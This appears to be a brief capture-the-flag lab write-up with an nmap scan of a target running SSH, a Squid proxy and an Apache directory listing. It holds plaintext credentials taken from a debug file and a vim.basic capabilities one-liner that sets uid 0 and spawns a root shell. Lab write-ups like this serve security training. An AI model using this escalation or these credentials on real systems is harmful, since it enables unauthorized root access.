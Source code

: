 local.txt: ae094c189e1fd966dffd184e9654fd99
proof.txt: 571bd6a21a5bd533fdd4eae649bb471c
```lua
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3a:86:87:62:d1:b3:e3:74:97:fa:94:4b:31:a8:41:e5 (RSA)
|   256 64:b0:c3:72:98:ec:47:ca:77:01:5d:73:5d:12:4b:69 (ECDSA)
|_  256 de:0c:d1:ed:27:70:b6:9f:1f:99:31:e8:eb:cd:ff:b7 (ED25519)
3128/tcp open  http-proxy Squid http proxy 4.10
|_http-server-header: squid/4.10
|_http-title: ERROR: The requested URL could not be retrieved
8000/tcp open  http       Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.1K  2024-07-15 11:13  debug.txt
|_
|_http-title: Index of /
Aggressive OS guesses: Linux 2.6.32 (88%)
```

```sh
# Use Squid Proxy on Internal Network
ext_acc:DoNotShare!SkyLarkLegacyInternal2008

# Use legacy:I_Miss_Windows3.1
```

# Priv Esc
`vim.basic` Priv esc using capabilites
```sh
/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

No Post Exploitation!